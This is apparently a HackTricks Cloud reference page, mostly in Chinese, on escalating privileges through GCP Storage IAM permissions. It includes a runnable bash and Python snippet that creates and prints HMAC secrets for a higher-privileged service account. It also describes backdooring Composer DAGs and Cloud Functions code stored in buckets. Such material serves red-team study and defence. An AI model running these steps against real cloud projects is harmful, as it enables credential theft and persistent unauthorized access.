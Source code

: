 # GCP - Storage Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Storage

基本信息：

{% content-ref url="../gcp-services/gcp-storage-enum.md" %}
[gcp-storage-enum.md](../gcp-services/gcp-storage-enum.md)
{% endcontent-ref %}

### `storage.objects.get`

此权限允许您**下载存储在 Cloud Storage 中的文件**。这可能会让您提升权限，因为在某些情况下**敏感信息会保存在那里**。此外，一些 GCP 服务将其信息存储在存储桶中：

* **GCP Composer**：当您创建一个 Composer 环境时，**所有 DAG 的代码**将保存在一个**存储桶**中。这些任务的代码中可能包含有趣的信息。
* **GCR (容器注册表)**：容器的**镜像**存储在**存储桶**中，这意味着如果您可以读取存储桶，您将能够下载镜像并**搜索泄漏和/或源代码**。

### `storage.objects.setIamPolicy`

您可以授予自己权限以**滥用本节中的任何先前场景**。

### **`storage.buckets.setIamPolicy`**

有关如何使用此权限修改权限的示例，请查看此页面：

{% content-ref url="../gcp-unaunthenticated-enum-and-access/gcp-storage-unauthenticated-enum/gcp-public-buckets-privilege-escalation.md" %}
[gcp-public-buckets-privilege-escalation.md](../gcp-unaunthenticated-enum-and-access/gcp-storage-unauthenticated-enum/gcp-public-buckets-privilege-escalation.md)
{% endcontent-ref %}

### `storage.hmacKeys.create`

Cloud Storage 的“互操作性”功能，旨在实现与 AWS S3 等的**跨云交互**，涉及为**服务账户和用户创建 HMAC 密钥**。攻击者可以通过**为具有提升权限的服务账户生成 HMAC 密钥**来利用这一点，从而**在 Cloud Storage 中提升权限**。虽然与用户相关的 HMAC 密钥只能通过网络控制台检索，但访问密钥和秘密密钥始终保持**可访问**，允许潜在的备份访问存储。相反，与服务账户关联的 HMAC 密钥可以通过 API 访问，但其访问密钥和秘密密钥在创建后无法检索，增加了持续访问的复杂性。

{% code overflow="wrap" %}
```bash
# Create key
gsutil hmac create <sa-email> # You might need to execute this inside a VM instance

## If you have TROUBLES creating the HMAC key this was you can also do it contacting the API directly:
PROJECT_ID = '$PROJECT_ID'
TARGET_SERVICE_ACCOUNT = f"exam-storage-sa-read-flag-3@{PROJECT_ID}.iam.gserviceaccount.com"
ACCESS_TOKEN = "$CLOUDSDK_AUTH_ACCESS_TOKEN"
import requests
import json
key = requests.post(
f'https://www.googleapis.com/storage/v1/projects/{PROJECT_ID}/hmacKeys',
params={'access_token': ACCESS_TOKEN, 'serviceAccountEmail': TARGET_SERVICE_ACCOUNT}
).json()
#print(json.dumps(key, indent=4))
print(f'ID: {key["metadata"]["accessId"]}')
print(f'Secret: {key["secret"]}')


# Configure gsutil to use the HMAC key
gcloud config set pass_credentials_to_gsutil false
gsutil config -a

# Use it
gsutil ls gs://[BUCKET_NAME]

# Restore
gcloud config set pass_credentials_to_gsutil true
```
{% endcode %}

另一个针对此方法的利用脚本可以在 [这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/storage.hmacKeys.create.py) 找到。

## `storage.objects.create`, `storage.objects.delete` = 存储写入权限

为了在存储桶中**创建新对象**，您需要 `storage.objects.create`，并且根据 [文档](https://cloud.google.com/storage/docs/access-control/iam-permissions#object\_permissions)，您还需要 `storage.objects.delete` 来**修改**现有对象。

在可以在云中写入的存储桶中，**常见的利用**是当**存储桶保存网页服务器文件**时，您可能能够**存储新代码**，该代码将被网页应用程序使用。

### Composer

**Composer** 是在 GCP 中管理的 **Apache Airflow**。它有几个有趣的功能：

* 它运行在 **GKE 集群** 中，因此 **集群使用的服务账户可以被 Composer 中运行的代码访问**
* Composer 环境的所有组件（**DAG 的代码**、插件和数据）都存储在 GCP 存储桶中。如果攻击者对其具有读写权限，他可以监控存储桶，并且**每当创建或更新 DAG 时，提交一个后门版本**，以便 Composer 环境将从存储中获取后门版本。

**您可以在该仓库中找到此攻击的 PoC：** [**https://github.com/carlospolop/Monitor-Backdoor-Composer-DAGs**](https://github.com/carlospolop/Monitor-Backdoor-Composer-DAGs)

### Cloud Functions

* Cloud Functions 代码存储在存储中，每当创建新版本时，代码会推送到存储桶，然后从该代码构建新容器。因此，**在新版本构建之前覆盖代码可以使云函数执行任意代码**。

**您可以在该仓库中找到此攻击的 PoC：** [**https://github.com/carlospolop/Monitor-Backdoor-Cloud-Functions**](https://github.com/carlospolop/Monitor-Backdoor-Cloud-Functions)

### App Engine

* App Engine 源代码存储在存储桶中，**覆盖代码可能会执行任意代码。这是不可能的**
* **看起来容器层存储在存储桶中，可能更改这些？**

### GCR

* **Google Container Registry** 将镜像存储在存储桶中，如果您可以**写入这些存储桶**，您可能能够**横向移动到这些存储桶运行的地方。**
* GCR 使用的存储桶将具有类似于 `gs://<eu/usa/asia/nothing>.artifacts.<project>.appspot.com` 的 URL（顶级子域在 [这里](https://cloud.google.com/container-registry/docs/pushing-and-pulling) 指定）。

{% hint style="success" %}
此服务已被弃用，因此此攻击不再有用。此外，替代此服务的 Artifactory 不会将镜像存储在存储桶中。
{% endhint %}

## **参考文献**

* [https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/#:\~:text=apiKeys.-,create,privileges%20than%20our%20own%20user.](https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/)

{% hint style="success" %}
学习和实践 AWS 黑客攻击：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客攻击： <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
